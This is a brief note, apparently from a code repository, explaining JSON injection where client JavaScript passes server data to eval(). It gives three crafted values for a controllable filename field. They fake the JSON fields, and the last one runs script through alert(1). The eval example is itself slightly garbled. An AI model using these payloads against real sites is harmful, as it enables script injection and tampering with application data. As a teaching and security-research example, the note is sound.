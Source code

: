 #JSON Injection
-----------------------------------------------------------------

## How to inject for a valid json returned?

client js code as :
```javascript
  data = ... ;
  var jsonpbj = eval("("++")");
```
"data" maybe :
```javascript
  {'original':'008.jpg','url':'http://hikerell.cn/getFile/20141103141947:42d3db16e960a621f5e85d456f2054ae.jpg','title':'','state':'SUCCESS'}
```
the "original" could be controled, then wen can submit "original" using the value:
```
  fake.jpg','url':'fakeurl','title':'faketitle','state':'SUCCESS'})//{'name':'008.jpg"
```  
  or:
```
  fake.jpg','url':'fakeurl','title':'faketitle','state':'SUCCESS'})<!--{'name':'008.jpg"
```
  or. execute js directly:
```
  fake.jpg','url':'fakeurl','title':'faketitle','state':'SUCCESS'})(alert(1))<!--{'name':'008.jpg"
```
